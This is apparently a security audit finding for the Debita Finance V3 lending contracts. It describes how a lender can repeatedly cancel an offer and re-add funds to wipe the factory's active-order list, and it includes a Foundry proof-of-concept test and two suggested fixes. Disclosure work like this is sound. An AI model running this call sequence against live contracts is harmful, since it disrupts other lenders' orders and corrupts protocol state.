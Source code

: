 Proud Tangerine Eagle

High

# Malicious lender could continously call DLOFactory::deleteOrder to clear the active orders storage

### Summary

an order is still "legit" in the factory even after it has been cancelled 
the lender would take advantage of this to conduct an attack using the following steps 


create lend order via createLendOrder 
then continously call cancelOffer and add funds 

https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/1465ba6884c4cc44f7fc28e51f792db346ab1e33/Debita-V3-Contracts/contracts/DebitaLendOfferFactory.sol#L207-L220

https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/1465ba6884c4cc44f7fc28e51f792db346ab1e33/Debita-V3-Contracts/contracts/DebitaLendOffer-Implementation.sol#L144-L159

this will point all active orders towards the zero index then override them 

add this test to test/multiplePrinciples.t.sol

    function test_remove_all_orders_from_single_order() public {
        vm.startPrank(secondLender);
        console.log(DLOFactoryContract.activeOrdersCount()); // 3
        SecondLendOrder.cancelOffer();
        console.log(DLOFactoryContract.activeOrdersCount()); // 2
        wETHContract.approve(address(SecondLendOrder), 1e6);
        SecondLendOrder.addFunds(uint(1e6));
        SecondLendOrder.cancelOffer();
        console.log(DLOFactoryContract.activeOrdersCount()); // 1
        wETHContract.approve(address(SecondLendOrder), 1e6);
        SecondLendOrder.addFunds(uint(1e6));
        SecondLendOrder.cancelOffer();
        console.log(DLOFactoryContract.activeOrdersCount()); // 0
        vm.stopPrank();
    }

### Root Cause

allowing a lend order to remain legit after it has been deleted 

### Internal pre-conditions

none 

### External pre-conditions

none

### Attack Path

_No response_

### Impact

lender would active order count variable providing wrong onchain data to offchain mechanisms 
### PoC

_No response_

there are two approaches depending on wants the protocol wants achieve 
1 stop lender or loans from adding funds when the order is no more active 
2 set isLegitOrder to false when an order is cancelled 

_No response_
